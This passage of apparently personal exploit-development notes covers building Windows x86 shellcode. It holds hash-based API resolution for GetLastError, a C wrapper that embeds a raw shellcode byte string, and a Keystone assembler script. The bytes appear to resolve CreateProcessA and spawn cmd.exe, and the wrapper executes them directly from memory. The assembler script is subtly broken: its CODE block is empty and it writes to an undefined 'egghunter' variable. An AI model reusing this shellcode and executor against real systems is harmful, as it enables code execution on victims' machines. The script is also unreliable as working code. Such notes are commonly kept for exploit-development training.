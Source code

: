     }
    ```
    
- Debugging Errors
    
    To debug errors while building shellcode the WinAPI `GetLastError` is very useful. Import and use as follow: [https://learn.microsoft.com/en-us/windows/win32/api/errhandlingapi/nf-errhandlingapi-getlasterror](https://learn.microsoft.com/en-us/windows/win32/api/errhandlingapi/nf-errhandlingapi-getlasterror)
    
    ```python
    " resolve_symbols_kernel32:          "
      "   push  0x75da1966                ;"  #   GetLastError hash
      "   call dword ptr [ebp+0x04]       ;"  #   Call find_function
      "   mov  [ebp+0x38], eax           ;"  #   Save GetLastError address for later usage
      "   call dword ptr [ebp+0x38]  ;"  #   Call GetLastError
    ```
    
    [https://learn.microsoft.com/en-us/windows/win32/debug/system-error-codes--0-499-](https://learn.microsoft.com/en-us/windows/win32/debug/system-error-codes--0-499-)

    
- Testing C++ Shellcode Wrapper
    
    ```python
    #include<stdio.h>
    #include<string.h>
    char shellcode[]=\
    
    "\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x31\xdb\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce\x8b\x14\x96\x01\xca\x89\xd6\x89\xcf\x31\xdb\x68\x79\x41\x41\x41\x66\x89\x5c\x24\x01\x68\x65\x6d\x6f\x72\x68\x65\x72\x6f\x4d\x68\x52\x74\x6c\x5a\x54\x51\xff\xd2\x83\xc4\x10\x31\xc9\x89\xca\xb2\x54\x51\x83\xec\x54\x8d\x0c\x24\x51\x52\x51\xff\xd0\x59\x31\xd2\x68\x73\x41\x42\x42\x66\x89\x54\x24\x02\x68\x6f\x63\x65\x73\x68\x74\x65\x50\x72\x68\x43\x72\x65\x61\x8d\x14\x24\x51\x52\x57\xff\xd6\x59\x83\xc4\x10\x31\xdb\x68\x65\x78\x65\x41\x88\x5c\x24\x03\x68\x63\x6d\x64\x2e\x8d\x1c\x24\x31\xd2\xb2\x44\x89\x11\x8d\x51\x44\x56\x31\xf6\x52\x51\x56\x56\x56\x56\x56\x56\x53\x56\xff\xd0\x5e\x83\xc4\x08\x31\xdb\x68\x65\x73\x73\x41\x88\x5c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x8d\x1c\x24\x53\x57\xff\xd6\x31\xc9\x51\xff\xd0";
    
    main()
    {
    printf("shellcode lenght %ld\n",(long)strlen(shellcode));
    (* (int(*)()) shellcode) ();
    }
    ```
    
    ```python
    from keystone import *
    CODE = (
    
    )
    # Initialize engine in 32bit mode
    ks = Ks(KS_ARCH_X86, KS_MODE_32)
    encoding, count = ks.asm(CODE)
    shellcode = ""
    for dec in encoding:
      egghunter += "\\x{0:02x}".format(int(dec)).rstrip("\n")
    print("shellcode = (\"" + shellcode + "\")")
    ```
    